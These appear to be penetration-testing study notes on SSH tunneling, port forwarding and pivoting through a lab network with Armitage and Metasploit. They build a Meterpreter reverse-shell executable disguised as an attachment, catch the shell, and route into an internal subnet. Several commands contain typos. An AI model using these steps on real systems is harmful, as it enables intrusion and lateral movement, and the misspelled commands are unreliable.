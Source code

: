 # Tunneling, Port Forwarding, Pivoting, & Exfiltration

## Tunneling

Where one protocol is used to carry traffic for another protocol.

### SSH Tunneling

#### 3 Types

1. Local port forwarding
2. Remote port forwarding
3. Dynamic port forwarding

#### Local Port Forwarding

If we look at our local Kali host `http://127.0.0.1:8080` nothing is currently running there.

Now use SSH to connect to my target server on port 80, but access it on port 8080 locally.

```bash
# From Kali
ssh -f -nNT -L 8080:localhost:80 target_user@target_IP
ssh -f -nNT -L 8080:localhost:80 msfadmin@10.0.2.8
```

Should now be able to navigate to `http://127.0.0.1:8080` and see the target's web page.

We can use `lsof` to kill it: `lsof -i` and kill the PID of the process.

#### Remote Port Forwarding

```bash
# From Target
sudo ssh -R 2222:localhost:22 kali@kali_IP
# From Kali
ssh target_IP -p 2222
```

#### Running HTTP through an SSH Tunnel

```bash
# From Target
sudo ssh -f -nNT -R 8080:localhost:80 msfadmin@10.0.2.8
# From Kali
# Can now navigate to 10.0.2.8 in a browser. Was not available prior.
```

#### Dynamic Port Forwarding

```bash
# From Kali
ssh -f - N -D 9050 kali@intermediate_IP  # Dual homed with second IP of 10.1.1.7
proxychains ssh 10.1.1.5  # Target IP
```

## Port Forwarding

Forwarding an incoming IP:port to an outoging IP:port.

## Pivoting

Technique used to burrow deep into a network by routing one machine to another.

### Armitage

```bash
# Setup Meterpreter revere shell
msfvenom -p windows/meterpreter/reverse_tcp --platform windows --arch x86 -f exe LHOST=<IP> LPORT=<IP> -o winjan.exe
# From Armitage
# Add target host, select payload, windows, meterpreter, reverse_tcp, remove encoding, and update the port
# Now wait for a victim to click the malicious attachment winjan.exe
# Arimtage has detected and exploited it
# Right click on the target to select meterpreter, pivoting, setup, and see additional hosts
# We can now scan the new target(s). Select Hosts, MSFscans, and enter range
```

### Metasploit

```bash
msf > use exploit/multi/handler
msf > set payload windos/meterpreter/reverse_tcp
msf > set lhsot
msf > set lport
msf > exploit
# Now execute the winjan.exe file from the target like with Armitage
# We now have a meterpreter reverse shell and can check the network configuration
meterpreter > shell
C:\tools>ipconfig
exit
meterpreter > background
msf exploit(multi/handler) > use post/multi/manage/autoroute
msf post(multi/manage/autoroute) > set subnet 10.1.1.0
msf post(multi/manage/autoroute) > set session 1
msf post(multi/manage/autoroute) > exploit
# We can now pivot by scanning one of the new targets
msf auxiliary(scanner/ssh/ssh_version) > set rhosts 10.1.1.5
msf auxiliary(scanner/ssh/ssh_version) > exploit
```

## Exfiltration

Various ways to get information out of the network.
